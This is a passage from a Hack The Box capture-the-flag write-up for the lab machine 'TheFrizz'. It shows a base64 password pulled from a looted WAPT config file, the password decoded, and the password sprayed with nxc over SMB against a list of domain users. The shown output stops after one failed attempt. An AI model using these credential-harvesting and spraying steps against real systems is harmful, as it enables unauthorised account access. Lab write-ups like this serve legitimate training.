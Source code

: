 ```
conf               lib           setuphelpers_linux.py    unins000.msg              wapt-get.ini           waptpython.exe        wapttftpserver.exe
conf.d             licencing.py  setuphelpers_macos.py    version-full              wapt-get.ini.tmpl      waptpythonw.exe       wapttray.exe
COPYING.txt        log           setuphelpers.py          waptbinaries.sha256       wapt-get.py            wapt-scanpackages.py  waptutils.py
db                 private       setuphelpers_unix.py     waptconsole.exe.manifest  waptguihelper.pyd      waptself.exe          waptwua
DLLs               __pycache__   setuphelpers_windows.py  waptcrypto.py             waptlicences.pyd       waptserver.exe        wgetwads32.exe
```

The `conf/waptserver.ini` file contains a base64-encoded password.

```
fcoomans@kali:~/htb/thefrizz/loot/wapt$ cd conf

fcoomans@kali:~/htb/thefrizz/loot/wapt/conf$ ls
ca-192.168.120.158.crt  ca-192.168.120.158.pem  forward_ssl_auth.conf  require_ssl_auth.conf  uwsgi_params  waptserver.ini  waptserver.ini.template

fcoomans@kali:~/htb/thefrizz/loot/wapt/conf$ grep -i password *
waptserver.ini:wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
waptserver.ini.template:#db_password=
waptserver.ini.template:wapt_password=
```

The password decodes to `!suBcig@MehTed!R`.

```
fcoomans@kali:~/htb/thefrizz$ echo -n IXN1QmNpZ0BNZWhUZWQhUgo= |base64 -d
!suBcig@MehTed!R
```

A password spraying attack against the domain users, shows that this password was also used for user `M.SchoolBus`!

```
fcoomans@kali:~/htb/thefrizz$ cat domain_users.txt
Administrator
Guest
krbtgt
f.frizzle
w.li
h.arm
M.SchoolBus
d.hudson
k.franklin
l.awesome
t.wright
r.tennelli
J.perlstein
a.perlstein
p.terese
v.frizzle
g.frizzle
c.sandiego
c.ramon
m.ramon
w.Webservice

fcoomans@kali:~/htb/thefrizz$ nxc smb frizzdc.frizz.htb -u domain_users.txt -p '!suBcig@MehTed!R' -k
SMB         frizzdc.frizz.htb 445    frizzdc          [*]  x64 (name:frizzdc) (domain:frizz.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         frizzdc.frizz.htb 445    frizzdc          [-] frizz.htb\Administrator:!suBcig@MehTed!R KDC_ERR_PREAUTH_FAILED
```